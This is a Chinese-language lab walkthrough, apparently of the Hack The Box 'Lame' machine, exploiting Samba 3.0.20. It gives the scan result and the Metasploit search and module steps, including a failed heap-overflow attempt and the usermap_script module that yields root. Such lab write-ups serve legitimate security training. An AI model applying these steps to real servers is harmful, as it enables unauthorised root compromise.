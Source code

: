 ```yaml
---
title: lame（samba）
categories:
- training
tags:
- training
- port 139
- linux os
---
```




10.10.10.3

## scan
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)

linux os

---

这个training应该很简单，以前做过：
[139端口——smbclient](https://whale3070.github.io/tools/2016/12/12/x/)

[kiotrix靶机（139端口samba）](https://whale3070.github.io/training/2017/10/01/kiotrix%E9%9D%B6%E6%9C%BA-139%E7%AB%AF%E5%8F%A3samba/)

![Screenshot from 2019-01-03 15-51-52](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-03/Screenshot%20from%202019-01-03%2015-51-52.png)

得知服务版本
Samba 3.0.20-Debian

## trying 1
![Screenshot from 2019-01-03 16-00-54](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-03/Screenshot%20from%202019-01-03%2016-00-54.png)
```
locate exploits/linux/remote/9950.rb
[*] exec: locate exploits/linux/remote/9950.rb

/root/exploit-database/exploits/linux/remote/9950.rb
/usr/share/exploitdb/exploits/linux/remote/9950.rb

msfconsole
search -h
search platform:linux type:exploit samba
 exploit/linux/samba/chain_reply          2010-06-16       good       No     Samba chain_reply Memory Corruption (Linux x86)
   exploit/linux/samba/is_known_pipename    2017-03-24       excellent  Yes    Samba is_known_pipename() Arbitrary Module Load
   exploit/linux/samba/lsa_transnames_heap  2007-05-14       good       Yes    Samba lsa_io_trans_names Heap Overflow
   exploit/linux/samba/setinfopolicy_heap   2012-04-10       normal     Yes    Samba SetInformationPolicy AuditEventsInfo Heap Overflow
   exploit/linux/samba/trans2open           2003-04-07       great      No     Samba trans2open Overflow (Linux x86)
   exploit/multi/samba/nttrans              2003-04-07       average    No     Samba 2.2.2 - 2.2.6 nttrans Buffer Overflow

use exploit/linux/samba/setinfopolicy_heap
show options 
查看Exploit target:
2:3.5.11~dfsg-1ubuntu2 on Ubuntu Server 11.10 
这个payload目标不对，于是
back
```
![Screenshot from 2019-01-03 16-12-30](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-03/Screenshot%20from%202019-01-03%2016-12-30.png)

#### 导入msf载荷
```
cd /root/.msf4/modules/exploits/
mkdir samba3.0.21-3.0.24 
cd samba*
cp /root/exploit-database/exploits/linux/remote/9950.rb .

重新启动msfconsole
search samba3
```

![2](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-03/2.PNG)
突然发现，目标版本好像不符合条件，samba3.0.21-3.0.24

ORZ，太粗心了

## trying2:
Samba < 3.0.20 - Remote Heap Overflow
exp是一些C代码，需要编译运行，而且注释是意大利语的。。

## trying3:
google搜索Samba 3.0.20
https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script

exploit/multi/samba/usermap_script

![3](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-03/3.PNG)

执行后，直接就是root权限
